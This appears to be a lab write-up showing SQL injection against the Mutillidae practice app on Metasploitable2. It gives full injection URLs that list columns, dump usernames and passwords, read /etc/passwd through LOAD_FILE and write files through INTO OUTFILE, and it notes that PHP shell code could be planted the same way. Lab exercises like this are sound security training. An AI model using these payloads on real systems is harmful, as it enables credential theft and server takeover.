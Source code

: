 

![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/e3c81cdd-9802-4142-a617-55156f8cbc57)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/b2718cf2-b8ed-488d-a6a8-7842ec72d913)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/f4719234-96ad-4b4f-bf61-63e9eadad8d5)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details





![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/a347d036-86e8-4463-8d0a-b68be71dccca)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).




## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
